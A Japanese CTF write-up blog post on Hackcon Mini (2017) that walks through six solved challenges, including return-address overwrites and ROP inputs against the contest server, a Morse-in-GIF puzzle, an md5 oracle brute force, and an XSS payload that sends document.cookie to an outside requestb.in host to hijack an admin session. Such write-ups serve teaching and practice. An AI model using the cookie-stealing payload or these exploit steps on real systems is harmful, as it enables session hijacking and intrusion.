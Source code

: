 ```yaml
---
layout: post
title: Hackcon Mini の write-up
categories: [ctf]
date: 2017-02-12 05:30:00 +0900
---
```


チーム Harekaze で [Hackcon Mini](http://hackcon.in/) に参加しました。

最終的にチームで 585 点を獲得し、順位は 8 位 (得点 110 チーム中) でした。うち、私は 6 問を解いて 590 点を入れました。

…計算が合いませんが、これは罠として仕込まれている特定のフラグを送信すると、マイナスの得点が入ってしまうという問題があったためです。

以下、解いた問題の write-up です。

## [PWN 30] Random

乱数を当てろという問題です。最初に `srand(time(NULL))` をしており、しかもこの `time(NULL)` の値を教えてくれるので、こちらで再現した値を投げれば終わりです。

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  srand(atoi(argv[1]));
  printf("%d\n", rand());
  return 0;
}
```

```
HACKCON{n00b_scrubs_get_me_a_real_pwn!}
```

## [PWN 100] Game of Integers - Part 1

SSP がありますが、canary を書き換えずに直接リターンアドレスを書き換えられます。`run_me` に飛ばしましょう。

```
$ nc 35.154.158.26 31338
Which index do you want to overwrite?
24
Enter value to overwrite:
134513979
Lets see!
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
Its impossible to run me. Is it?
```

```
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
```

## [PWN 200] Game of Integers - Part 2

`run_me` は潰されてしまっているようなので、直接 `system` を呼んでしまいましょう。

```
$ nc 35.154.158.26 31337
Which index do you want to start the overwrite?
24
How many integers?
3
Enter value to overwrite:
134513664
Enter value to overwrite:
1094795585
Enter value to overwrite:
134514497
Lets see!
HACKCON{ROP_WITH_INTS}
```

```
HACKCON{ROP_WITH_INTS}
```

## [Web 50] Webdev

DevTools を開きながらページを見ると、`movie.gif` というやけに大きな gif を取りに行っているのが確認できます。

この gif はアニメーションでチカチカ点滅していますが、白が表示される間隔が少しズレているように思えます。黒を 0、白を 1 として文字列にしてみましょう。

```python
from PIL import Image
im = Image.open('movie.gif')
w, h = im.size
res = ''
try:
  while True:
    i = im.convert('RGB')
    res += '0' if i.getpixel((0, 0)) == (0, 0, 0) else '1'
    im.seek(im.tell() + 1)
except:
  print(res)
```

結果を `result.txt` として保存して、さらに次のスクリプトを実行します。

```python
s = open('result.txt').read().strip()
s = s.replace('00000', ' ')
s = s.replace('0000', '-')
s = s.replace('000', '.')
s = s.replace('1', '')
print(s)
```

```
.... . .-.. .-.. ---   ..-. .-. .. . -. -..   .... . .-.. .-.. ---   ..-. .-. .. . -. -..   - .... .- - ...   .-.. .- -- .   -- .- -.-- -... .   ..   ... .... --- ..- .-.. -..   --. .. ...- .   -.-- --- ..-   .-   -. .- -- .   -... ..- -   - .... .- - ...   .-   ... .-.. .. .--. .--. . .-. -.--   ... .-.. --- .--. .   -.-- --- ..- .-. .   --- -. .-.. -.--   .. -.   -- -.--   .... . .- -..   .-- .   .... .- ...- .   - ---   .-. . -- . -- -... . .-.   - .... .- -   .- -. -..   --- -. .   - .... .. -. --.     -... - .--   - .... .   ..-. .-.. .- --.   .. ...   .... .- -.-. -.- -.-. --- -. -- --- .-. ... . ..-. .-.. .- --.
```

モールス信号が出てきました。これをデコードするとフラグが出てきました。Web とは…。

```
HACKCONMORSEFLAG
```

## [Web 60] Admin Login

とりあえずデモユーザーでログイン。試しに `<s>haifuri</s>` をポストすると、エスケープされずに表示されました。XSS があるようです。

`<script>(new Image).src='http://requestb.in/xxx?'+document.cookie;</script>` をポストしてみると、サーバの IP アドレスからセッション ID 付きでアクセスが来ました。

このセッション ID をセットして更新すると、フラグが表示されました。

```
seSSi0n_h!Jack1ng_!s_@wesOmEEEEE!
```

## [Web 150] BF

問題文を確認しましょう。得られた文字列が `tyuio` のときフラグは `87c1b071153ae8fd35acfd9ab3f3f6bb` で、`juteg` のときフラグは `d6d684e70bb4c5801b012151141add87` になるようです。

[CrackStation](https://crackstation.net/) に `87c1b071153ae8fd35acfd9ab3f3f6bb` を投げるとこれは `bgcqw` の md5 ハッシュだと分かりました。これは `tyuio` をシーザー暗号で右に 8 シフトさせた文字列です。

動いているサービスを確認しましょう。任意の Brain なんとかのコードを実行できますが、返ってくる出力は md5 にかけられてしまっています。そして、欲しい文字列は入力として入ってきます。

1 バイトずつ出力させれば、あらかじめテーブルを作っておくだけで元の文字が分かります。

```python
import hashlib
import requests

t = {}
for x in range(256):
  t[hashlib.md5(bytes([x])).hexdigest()] = chr(x)

i = 1
res = ''
while True:
  r = requests.get('http://35.154.158.26:10300/{}.'.format(',' * i))
  res += t[r.content.decode('ascii')]
  print(res)
  i += 1
```

結果は `bpqaqabpmwzqoqvitntioGMAAAAABPMnTiOQaippipilpplpl` でした。これを右に 8 シフトさせて md5 にかけたものがフラグです。

```
9418ba5c569b70839474e121a7a72d58
```

## 感想

この CTF は競技時間が 5 時間と非常に短いものでした。問題の量と難易度はその短さに見合ったものでしたが、それでもちょっとなあという感じです。
